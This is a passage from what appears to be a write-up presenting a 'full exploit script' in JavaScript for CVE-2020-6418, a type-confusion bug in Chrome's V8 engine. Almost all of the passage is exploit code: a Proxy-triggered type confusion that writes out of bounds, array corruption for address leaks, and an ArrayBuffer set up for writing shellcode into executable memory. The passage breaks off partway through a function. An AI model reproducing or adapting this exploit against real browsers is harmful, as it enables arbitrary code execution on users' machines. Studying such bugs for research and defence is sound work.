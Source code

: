 ![video](nosandbox-chrome-cve-2020-6418.gif)

---

## The Full Exploit Script
The following is the cleaned-up version since the very first completed one was very messy and had lots of unnecessary things.

```js
 load("C:/Users/User/v8/out/default/utils.js");
  load("C:/Users/User/v8/out/default/int64.js");
  
MAXITER = 100000; // 10000 wasnt enough lel
LOOPCOUNT = 100;
  
const EXPLOIT_LENGTH = 47707876338752028672E20;  //0x4141
var a = [0.1, , , , , , , , , , , , , , , , , , , , , , , 6.1, 7.1, 8.1];
var x = null;
var oob_Array = null;
  
function empty() {}
  
function f(nt) {
    // pushes the supposed double(object) into the confused array a writing 26*8 rather than 26*4 bytes
    // of data thus writing out of bounds.
    a.push(typeof(Reflect.construct(empty, arguments, nt)) === Proxy ? EXPLOIT_LENGTH : EXPLOIT_LENGTH);
    for (var i = 0; i < MAXITER; i++) {}
}
  

const fixedDoubleArray_Map = 5;
const fixedArray_map_to_be_replaced_at_index = 28;
  
let p = new Proxy(Object, {
    get: function() {
        a[0] = {};
        oob_Array = [0.1, 0.2, 0.3, 0.4, 0.5];
        float_arr = [0.1, 0.1, 0.1]; // This is the floating array
        obj = {   //
            x: 0.99,
            y: 0.999
        };
        obj_arr_to_corrupt = [obj]; // This object can be set to the target object that we want the address of
  
        // This is used for writing shellcode data into rwx address
        ab = new ArrayBuffer(0x4141);
        dataview = new DataView(ab); // Sets the backing store. Think we can set teh values here
        //%DebugPrint(dataview);
        return Object.prototype;
    }
});
  
function main(o) {
    for (var i = 0; i < MAXITER; i++) {}
    return f(o);
}
  
 
function oobMe() {
  
```